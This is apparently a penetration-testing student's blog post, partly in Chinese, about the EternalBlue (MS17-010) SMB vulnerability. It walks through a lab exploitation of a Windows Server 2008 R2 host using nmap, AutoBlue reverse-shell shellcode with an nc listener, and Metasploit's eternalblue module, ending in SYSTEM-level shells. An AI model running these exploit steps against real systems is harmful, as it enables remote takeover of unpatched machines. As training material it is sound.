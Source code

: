 ```yaml
---
layout: post
title: "Exploiting Windows MS17-010 SMB Vulnerability (EternalBlue)"
date: "2022-09-14"
author: "r3kind1e"
header-img: "img/post-bg-Penetration Testing Student.png"
catalog:    true
tags: 
    - Penetration Testing Student v2
    - Host & Network Penetration Testing
    - System/Host Based Attacks
---
```


# Exploiting Windows MS17-010 SMB Vulnerability (EternalBlue)（利用 Windows MS17-010 SMB 漏洞（EternalBlue））
## MS17-010 永恒之蓝漏洞利用
EternalBlue (MS17-010/CVE-2017-0144) 是 Windows 漏洞和利用的集合的名称，这些漏洞和利用允许攻击者远程执行任意代码并访问 Windows 系统，从而访问目标系统所在的网络的。

EternalBlue 漏洞利用由 NSA（国家安全局）开发，以利用 MS17-010 漏洞，并于 2017 年由名为 Shadow Brokers 的黑客组织泄露给公众。

EternalBlue 漏洞利用了 Windows SMBv1 协议中的一个漏洞，该漏洞允许攻击者发送特制数据包，从而促进任意命令的执行。

EternalBlue 漏洞被用于 2017 年 6 月 27 日的 WannaCry 勒索软件攻击，通过网络利用其他 Windows 系统，目的是将勒索软件传播到尽可能多的系统。

此漏洞影响多个版本的 Windows：
* Windows Vista
* Windows 7
* Windows Server 2008
* Windows 8.1
* Windows Server 2012
* Windows 10
* Windows Server 2016

微软于 2017 年 3 月发布了针对该漏洞的补丁，然而，许多用户和公司仍未修补他们的系统。

EternalBlue 漏洞利用有一个 MSF 辅助模块，可用于检查目标系统是否容易受到漏洞利用，还有一个漏洞利用模块可用于利用未修补系统上的漏洞。

EternalBlue 漏洞利用模块可用于利用易受攻击的 Windows 系统，从而为我们提供目标系统上的特权 Meterpreter 会话。

除了 MSF 模块，我们还可以通过利用可用的利用代码手动利用该漏洞。

## Tools & Environment
AutoBlue-MS17-010: https://github.com/3ndG4me/AutoBlue-MS17-010

Target system: Windows Server 2008 R2

Penetration Testing distribution: Kali Linux

# Demo: Exploiting Windows MS17-010 SMB Vulnerability (EternalBlue)（演示：利用 Windows MS17-010 SMB 漏洞 (EternalBlue)）

```
sudo nmap -sV -p 445 -O 10.10.10.12
```

In order to identify wether the target is effected by Eternal Blue:

[smb-vuln-ms17-010](https://nmap.org/nsedoc/scripts/smb-vuln-ms17-010.html)

尝试检测 Microsoft SMBv1 服务器是否容易受到远程代码执行漏洞（ms17-010，又名 EternalBlue）的攻击。该漏洞被 WannaCry 和 Petya 勒索软件和其他恶意软件积极利用。

该脚本连接到 $IPC 树，在 FID 0 上执行事务并检查是否返回错误“STATUS_INSUFF_SERVER_RESOURCES”以确定目标是否未针对 ms17-010 进行修补。此外，它还会检查修补系统返回的已知错误代码。

```
sudo nmap -sV -p 445 --script=smb-vuln-ms17-010 10.10.10.12
```

[AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)

```
ls -al
cd shellcode
ls
chmod +x shell_prep.sh
```

```
./shell_prep.sh
y
10.10.10.10
1234
1234
1
1
```

```
ls -al

sc_x64.bin
sc_x86.bin
```

```
nc -nvlp 1234
```

```
cd ..
chmod +x eternalblue_exploit7.py
ls -al
```

```
python eternalblue_exploit7.py 10.10.10.12 shellcode/sc_x64.bin
```

```
nc -nvlp 1234

C:\Windows\system32>whoami
whoami
nt authority\system
```

```
msfconsole

search eternalblue
use exploit/windows/smb/ms17_010_eternalblue
show options
set RHOSTS 10.10.10.12
exploit
meterpreter > sysinfo
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
